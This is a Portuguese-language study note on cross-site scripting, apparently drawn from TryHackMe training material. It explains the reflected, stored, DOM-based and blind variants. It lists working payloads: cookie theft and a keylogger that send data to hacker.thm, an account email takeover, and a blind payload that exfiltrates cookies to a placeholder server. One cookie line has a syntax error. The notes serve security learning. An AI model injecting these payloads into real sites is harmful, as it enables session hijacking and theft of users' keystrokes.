

## Introdução

---

XSS (Cross-Site Scripting) é uma vuln que permite a injeção de codigo JS em uma aplicação.

## XSS Payloads

Um payload de XSS é o trecho de codigo que vai executar a ação. O XSS por se tratar de uma execuçao de codigo JS ele é muito versátil podendo fazer diversas ações.

-   **POP**

    Ou Simplesmente Prova de conceito é um payload basico que usamos apenas para demonstrar que podemos executar comando JS.

    ```Js
    <script>alert('XSS');</script>
    ```

-   **Session Stealing**

    Geralmente os sites usam os cookies para identificar um usuário logado, com isso podemos roubado usando a DOM.

    ```Js
    <script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>

    <script>fetch('https://hacker.thm/steal?cookie='document.cookie);</script>
    ```

-   **Key Logger**

    Se trata de um payload para espionar oq o alvo digita.

    ```Js
    <script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
    ```

-   **Business Logic**

    Esse tipo de Payload é mais especifico, precisamos analisar o app alvo, logo é necessário algum conhecimento em programação, vamos imaginar um recurso do site que tenha a função de alterar o email podemos usar o seguindo payload

    ```JS
    <script>user.changeEmail('attacker@hacker.thm');</script>
    ```

## Reflected XSS

O xss refletido acontece quando colocamos o payload em algum dado da requisição, e o site não trata/valida os dados, pelo payload ter que ser passado toda vez pelo client-side, esse xss tem uma etapa de engenharia social, onde precisamos convencer a vitima a fazer um click na pagina com o payload malicioso.

Devemos procurar em todos os inputs que recebem dados do client, como funções de busca, cookies etc.



---


## Stored XSS

Diferente do reflected, aqui procuramos funções que guarda dados no back-end da aplicação, como uma função de envio de comentários, troca de ft de perfil etc.

O Stored é bem mais crítico que o reflected devido a facilidade para escalar, esse tipo não se faz necessário o envio de um link, uma vez que o payload fica gravado no servidor do app.


---


## DOM Based XSS

DOM Based XSS tem gatilhos de inicio tanto quando a pagina é carregada, quando em uma interação do usuário, esse XSS se utiliza da DOM (Document Object Model) para injetar o payload, ele ocorre diretamente no client da vitima nem a necessidade de carregar uma outra pagina ou gravar dados no back-end.

Para testar devemos procurar funções JS que nos de algum nível de controle como **window.location.x**


## Blind XSS

Blind XSS é ocorre quando o retorno da pagina onde é inserido o payload não pode ser acessada pelo atacante, como uma função "fale conosco", uma forma de testar é fazer um payload onde o alvo vai fazer uma request para um servidor seu.

https://github.com/mandatoryprogrammer/xsshunter-express

```JS
</textarea><script>fetch('http://URL_OR_IP:PORT_NUMBER?cookie=' + btoa(document.cookie) );</script>
```


